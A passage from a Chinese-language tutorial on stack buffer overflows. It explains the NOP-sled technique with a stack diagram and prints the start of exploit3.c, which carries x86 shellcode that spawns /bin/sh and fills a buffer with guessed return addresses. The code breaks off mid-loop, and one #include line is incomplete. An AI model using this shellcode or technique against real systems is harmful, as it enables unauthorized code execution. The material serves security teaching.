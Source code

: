 正如我们所看到的, 这并不是一个很有效率的过程. 即使知道了堆栈的起始地址, 尝试猜测偏移量也几乎是不可能的. 我们很可能要试验几百次, 没准几千次也说不定. 问题的关键在于我们必须*确切*地知道我们代码开始的地址. 如果偏差哪怕只有一个字节我们也只能得到段错误或非法指令错误. 提高成功率的一种方法是在我们溢出缓冲区的前段填充NOP指令. 几乎所有的处理器都有NOP指令执行空操作. 常用于延时目的. 我们利用它来填充溢出缓冲区的前半段. 然后把shellcode放到中段, 之后是返回地址. 如果我们足够幸运的话, 返回地址指到NOPs字串的任何位置, NOP指令就会执行, 直到碰到我们的shellcode. 在Intel体系结构中NOP指令只有一个字节长, 翻译为机器码是`0x90`. 假定堆栈的起始地址是`0xFF`, `S`代表shellcode, `N`代表NOP指令, 新的堆栈看起来是这样:

```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| NNNNNNNNNNNSSSSSSSSS | 0xDE | 0xDE | 0xDE | 0xDE | 0xDE |
+----------------------+------+------+------+------+------+
  ↑                             |
  +-----------------------------+
堆栈顶部                                           堆栈底部
```

新的破解程序如下:

exploit3.c

```c
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define NOP 0x90

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

    int i;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    for (i = 0; i < bsize/2; i++)
```